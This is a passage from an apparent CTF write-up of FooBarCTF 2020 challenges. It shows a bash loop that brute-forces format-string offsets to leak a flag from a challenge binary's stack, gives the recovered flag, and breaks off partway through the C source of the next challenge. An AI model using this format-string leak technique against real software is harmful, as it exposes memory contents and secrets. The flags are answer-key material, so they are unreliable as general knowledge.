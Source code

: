 It worked! That meant I could leak values from the stack. I just needed to find the correct offset to print the flag. I wrote a bash one-liner to bruteforce the it:

{% highlight bash %}
shell12@349241e9b0e8:~$ for i in `seq 1 200`; do (echo -n '%'; echo -n $i; echo '$s') | ./test | grep GLUG; done
GLUG{n0_57r1n65_4774ched}
^C^Z
[1]+  Stopped                 ( echo -n '%'; echo -n $i; echo '$s' ) | ./test | grep GLUG
shell12@349241e9b0e8:~$

{% endhighlight %}

**Flag:** GLUG{n0\_57r1n65\_4774ched}

## shell13: Auth is easy {#shell13}

<div>
<center><img src="/images/foobarctf_2020_writeup_part_ii/image-63.png"></center>
</div>

{% highlight bash %}
shell13@349241e9b0e8:~$ ls
auth  justno  justno.c
shell13@349241e9b0e8:~$ cat justno.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv)
{
    FILE *authf = fopen("../../problems/f49abea6827cafa20a035340d3812d09/auth", "r"); //access auth file in ../../../problems/f49abea6827cafa20a035340d3812d09
    if (authf == NULL)
    {
        printf("could not find auth file in ../../problems/f49abea6827cafa20a035340d3812d09/\n");
        return 0;
    }
    char auth[8];
    fgets(auth, 8, authf);
    fclose(authf);